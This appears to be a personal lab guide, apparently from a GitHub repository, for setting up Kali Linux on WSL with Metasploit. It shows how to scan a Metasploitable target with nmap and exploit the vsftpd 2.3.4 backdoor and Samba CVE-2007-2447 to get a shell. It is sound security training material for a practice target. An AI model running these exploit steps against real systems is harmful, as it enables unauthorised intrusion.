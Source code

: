# Security Testing Environment

## links

 - Network Chuck - Setup Kali on WSL <https://www.youtube.com/watch?v=dgdOILL1184>
 - Kali in Docker - <https://www.kali.org/docs/containers/using-kali-docker-images/>
 - kex offical - <https://www.kali.org/docs/wsl/win-kex/>
 - 
## Setup Kali Linux with WSL

1. Instll Kali Linux using WSL
2. update/upgrade 
3. Install kali-win-kex

```bash
sudo apt update && \
sudo apt upgrade -y \
sudo apt install kali-win-kex

# launch gui environment
kex
```

## Install Metasploit

```bash
# Recommended way... didnt work
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

# this route did work...
sudo apt-get install metasploit-framework postgresql
```

### Setup the Database

By default, metasploit will use Postgresql, but you will need to start the database and initilize it.

```bash
sudo msfdb start
sudo msfdb init
```

## Running Metasploit Console

```bash
msfconsole

# yes to setup new database first time
# no to creating web server - not required
```

### Scanning with Metasploit

nmap can be used to scan the target and obtain more information, often called reconnaissance. This can be done using nmap - make sure the package is installed.

```bash

# install the package at the bash prompt
sudo apt install nmap -y

# run this command at the msf console
db_nmap -v -T4 -PA -sV --version-all --osscan-guess -A -sS -Pn -p 1-65535 <ip address>
```

When the scan is done, you can run the "services" command to get the output of your scan. Here is a sample output.
![services](./images/services.png)

### vsftpd Exploit

This service is running on the metasploitable container and can be exploited using metasploit.

```bash
# search metasploit for vsftpd to see if it has anything it can use to exploit this service
search vsftpd

# load up the exploit in the console
use exploit/unix/ftp/vsftpd_234_backdoor

# The command prompt will change to:
# msf6 exploit(unix/ftp/vsftpd_234_backdoor) >

# use the info command to get more information on the attack
info

# Set the host and port
set RHOST <ipaddress>
set RPORT <port>

# run the exploit
run
```
Here is the output from the search:

![vsftpd](./images/vsftpd.png)

Here is the sample info for the exploit:

![vsftpdinfo](./images/vsftpdinfo.png)

Here is an example of running the exploit:
![vsftpdexploit](./images/vsftpdexploit.png)

### Samba Exploit

This is a quick review of Samba exploits. This service has more exploits available, which may require some additional work...

```bash
# search the metasploit database for exploits related to samba
search samba
```

Here are the search results for Samba
![samba](./images/samba.png)

```bash
# Rescan the service to get more information
nmap -PA -A -sV -sT -T4 --version-all -v -p <port num> <ip addr>
```

The second targeted nmap scan will give you more information about the service and the version running. This can be used to do more research about potential issues. Do some google searching on the exploit and find the CVE. The CVE can also be searched inside metasploit to find a targeted attack against that service.

Here is a screenshot of a more detailed scan:
![sambascan](./images/sambascan.png)


```bash
# search for the CVE
search cve:2007-2447
```

![sambasearchinfo](./images/sambasearchinfo.png)

Run the exploit and see if you can get a shell on the remote machine.
![sambaexploit](./images/sambaexploit.png)
